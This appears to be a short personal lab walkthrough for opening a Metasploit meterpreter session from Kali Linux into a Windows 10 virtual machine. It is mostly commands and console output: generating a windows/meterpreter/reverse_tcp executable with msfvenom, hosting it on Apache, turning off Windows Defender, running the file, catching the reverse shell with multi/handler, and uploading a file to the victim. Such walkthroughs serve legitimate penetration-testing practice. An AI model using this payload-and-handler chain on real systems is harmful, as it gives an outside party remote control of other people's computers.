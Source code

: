 ## shortcut on creating simple meterpreter session for fun##

##launch terminal##
# escalate to root #
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver(or simple python server)#
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender ##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##

msf6 > use multi/handler

[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.3:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

meterpreter > sysinfo <br>
 
Computer        : DESKTOP-WINDERS10 <br>
OS              : Windows 10 (10.0 Build 19044). <br>
Architecture    : x64 <br>
System Language : en_US <br>
Domain          : WORKGROUP <br>
Logged On Users : 2
Meterpreter     : x86/windows<br>

# open another terminal create a readme.txt to upload to windows computer in meterpreter #<br>
<br>
┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)
<br>
# Go back to meterpreter #
<br>
> meterpreter > upload readme.txt<br>
[*] uploading  : /g/readme.txt -> readme.txt<br>
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt<br>
[*] uploaded   : /g/readme.txt -> readme.txt<br>
meterpreter > ls<br>
> Listing: C:\Users\Gregster\Downloads<br>

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #<br>
<br>
┌──(root💀kali)-[/g]
└─# systemctl stop apache2  
<br>
┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST<br>
Nmap scan report for localhost (127.0.0.1)<br>
Host is up (0.000086s latency).<br>
Other addresses for localhost (not scanned): ::1<br>

PORT   STATE  SERVICE<br>
80/tcp closed http<br>

# meterpreter<br>
Metasploit/Meterpreter session from Kali to Windows VM<br>
